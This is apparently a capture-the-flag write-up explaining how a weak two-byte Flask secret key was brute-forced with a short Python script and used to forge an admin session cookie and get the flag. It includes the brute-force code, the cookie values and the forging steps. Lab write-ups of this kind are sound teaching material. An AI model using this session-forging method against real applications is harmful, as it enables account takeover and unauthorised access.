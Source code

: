 ![](00.png)

The website looks like this:

![](01.png)

I tried to register as `admin`:

> Forbidden
> 
> You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.

That makes sense. Let's try to register as `test`:

![](02.png)

Ok! So we're logged in, but the flag is hidden. We can see that a Cookie was created; `session`. It seems `base64`-encoded. Let's have a closer look:

```bash
$ echo -n "eyJuYW1lIjoidGVzdCJ9.Y2ZV5w.OKZKlhXL6Ctl2jMtEET6jO5IGxI" | base64 -d
{"name":"test"}base64: invalid input
```

First I thought this was a proper `JWT`, but malformed or used incorrectly in some way, but after going down that rabbit hole for a while, I finaly looked at the supplied app code... 🤦🏻‍♂️

Looking at the app (`app.py`) we can see the follwing:

```python
def generate_random_key():
    key = randbytes(1)
    key += choice(ascii_lowercase).encode("ascii")
    return key

flag = open("flag.txt", "r").read()
app = Flask(__name__)
seed(flag)
app.secret_key = generate_random_key()
```

`generate_random_key` creates a two byte key where the second byte doesn't even use the full `0-255` range. This should be crackable with some simple brute forcing.

After doing some research on `Flask` and `Flask-sessions` I found some code to verify a session token here: https://github.com/Paradoxis/Flask-Unsign/blob/master/flask_unsign/session.py

The code is part of the [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign) package. Which I might have been able to use directly, but ended up copying the relevant code for some reason...

Anyway, the following method is useful to us, because this let's us verify our secret while brute forcing:

```python
def verify(value: str, secret: str, legacy: bool=False, salt: str=DEFAULT_SALT) -> bool:
    """
    Verifies if a given value matches the signed signature
    :param value: Session cookie string to verify
    :param secret: Secret key
    :param salt: Salt (default: 'cookie-session')
    :param legacy: Should the legacy timestamp generator be used?
    :return: True if the secret key is valid
    """
    if not isinstance(secret, (bytes, str)):
        raise FlaskUnsignException(
            f"Secret must be a string-type (bytes, str) and received "
            f"{type(secret).__name__!r}. To fix this, either add quotes to the "
            f"secret {secret!r} or use the --no-literal-eval argument.")

    try:
        get_serializer(secret, legacy, salt).loads(value)
    except BadSignature:
        return False

    return True
```

I put together a `solve.py` script:

```python
# ...abbreviated

for x in range(0, 256): # the random byte
  for y in range(97, 123): # a-z (ascii_lowercase)

    key = bytearray()
    key.append(x)
    key.append(y)

    res = verify("eyJuYW1lIjoidGVzdCJ9.Y2ZV5w.OKZKlhXL6Ctl2jMtEET6jO5IGxI", bytes(key))

    if (res == True):
        print(key)
        print(f"Found! {key}")
        exit()
```

Let's try it:

```bash
$ python3 solve.py 
bytearray(b'\x13x')
Found! bytearray(b'\x13x')
```

Nice! We found the key; `\x13` and `x`.

I just used a modified version of `app.py` to create a valid session token for the `admin`-user:

From `app_modified.py`:
```python
#...abbreviated

# Set app.secret_key to the bruteforced key found with `solve.py`:
app.secret_key = b"\x13x"

#...abbreviated

# Clear the session on every page load and set `name` to `admin`
session.clear()
session['name'] = "admin"
# End
```

We run it:

```bash
$ python3 app.py 
 * Serving Flask app 'app' (lazy loading)
```

Navigate to the app:

![](03.png)

We can see our session cookie; `eyJuYW1lIjoiYWRtaW4ifQ.Y2ZRHQ.IjkUOwQRMayBCjAG71cwrRWg6FY`.

We paste the cookie into the real web page and reload:

![](04.png)

We are `admin` and we have the `flag`!

## Flag
```
EPT{flask-sessions-with-weak-key-is-no-goodie}
```
